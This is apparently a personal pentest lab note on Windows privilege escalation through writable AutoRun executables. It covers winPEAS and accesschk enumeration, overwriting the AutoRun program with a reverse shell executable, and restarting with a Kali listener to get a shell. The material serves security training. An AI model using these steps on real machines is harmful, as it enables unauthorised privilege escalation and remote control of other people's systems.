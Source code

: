 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Use winPEAS to check for writable AutoRun executables:

```command prompt - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```command prompt - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```command prompt - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The `C:\Program Files\Autorun Program\program.exe` AutoRun executable is writable by Everyone. Create a backup of the original:

```command prompt - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
